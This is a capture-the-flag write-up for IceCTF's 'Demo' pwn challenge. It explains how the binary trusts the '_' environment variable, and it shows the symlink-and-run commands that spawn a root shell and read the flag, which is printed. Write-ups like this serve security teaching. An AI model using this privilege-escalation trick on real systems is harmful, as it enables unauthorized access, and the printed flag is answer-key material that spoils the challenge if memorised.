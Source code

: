 ```yaml
---
layout: writeup
title: 'Demo'
level: 2
difficulty:
points:
categories: [pwn]
tags: []
flag: IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
---
```

## Challenge

I found this awesome premium shell, but my demo version just ran out...
can you help me crack it? `/home/demo/` on the shell

## Solution

The [c source code](writeupfiles/demo.c) is provided alongside. It
checks  
the environment variable for `_` which is the name of the executable
being  
run, takes the basename of that, and compares against "icesh", exiting
if  
not equal, otherwise giving root permissions which allow access to
`/home/demo/flag.txt`

So, we create a symlink to the file with a new name (in order to inherit

permissions of that file), and then run it which pops open a shell.

    [ctf-98836@icectf-shell-2016 ~]$ ln -s /home/demo/demo icesh
    [ctf-98836@icectf-shell-2016 ~]$ ./icesh
    $ bash
    ctf-98836@icectf-shell-2016:~$ cat /home/demo/flag.txt
    IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
